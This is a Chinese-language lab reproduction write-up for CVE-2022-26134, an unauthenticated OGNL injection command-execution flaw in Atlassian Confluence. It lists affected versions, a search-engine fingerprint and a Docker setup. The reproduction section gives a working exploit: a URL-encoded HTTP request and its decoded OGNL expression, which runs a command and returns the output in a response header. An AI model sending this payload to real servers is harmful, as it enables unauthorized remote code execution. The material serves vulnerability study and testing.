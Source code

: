 # Confluence OGNL表达式注入命令执行漏洞 CVE-2022-26134

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统。2022年6月2日Atlassian官方发布了一则安全更新，通告了一个严重且已在野利用的代码执行漏洞，攻击者利用这个漏洞即可无需任何条件在Confluence中执行任意命令。

参考链接：

- https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html
- https://attackerkb.com/topics/BH1D56ZEhs/cve-2022-26134/rapid7-analysis

## 漏洞影响

```
Atlassian Confluence 7.4.17
Atlassian Confluence 7.13.7
Atlassian Confluence 7.14.3
Atlassian Confluence 7.15.2
Atlassian Confluence 7.16.4
Atlassian Confluence 7.17.4
Atlassian Confluence 7.18.1
```

## 网络测绘

```
app="ATLASSIAN-Confluence"
```

## 环境搭建

Vulhub执行如下命令启动一个Confluence Server 7.13.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

## 漏洞复现

该漏洞利用方法十分简单，直接发送如下请求即可执行任意命令，并在HTTP返回头中获取执行结果：

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

其中使用到的OGNL表达式为：

```
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
```

![image-20220606145829007](./images/202206061458141.png)